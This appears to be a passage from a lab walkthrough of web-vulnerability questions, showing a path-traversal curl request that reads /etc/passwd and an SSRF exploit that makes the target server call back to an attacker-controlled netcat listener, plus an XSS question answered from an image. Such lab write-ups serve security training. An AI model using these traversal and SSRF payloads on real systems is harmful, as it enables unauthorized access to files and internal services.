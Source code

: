 ```
┌──(kali㉿kali)-[~/Downloads]
└─$ curl "http://10.129.64.147:3000/api/download/..%2f..%2f..%2f..%2fetc%2fpasswd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
(...)
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
ubuntu:x:1000:1000::/home/ubuntu:/bin/bash
```

**Answer:** `ubuntu`

---
## Cross-Site Scripting (XSS)
### Question:
![](./attachments/Pasted%20image%2020220727112655.png)

**Answer:** `No`

---
## Server-Side Request Forgery (SSRF)
### Question:
![](./attachments/Pasted%20image%2020220727112716.png)

```
┌──(kali㉿kali)-[~]
└─$ echo "http://10.10.14.225:4040" | tr -d '\n' | base64
aHR0cDovLzEwLjEwLjE0LjIyNTo0MDQw

┌──(kali㉿kali)-[~]
└─$ curl "http://10.129.64.147:3000/api/userinfo?id=aHR0cDovLzEwLjEwLjE0LjIyNTo0MDQw"
```

Netcat:

```
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -lvnp 4040                   
listening on [any] 4040 ...
connect to [10.10.14.225] from (UNKNOWN) [10.129.64.147] 49462
GET / HTTP/1.1
Accept: application/json, text/plain, */*
User-Agent: axios/0.24.0
Host: 10.10.14.225:4040
Connection: close
```
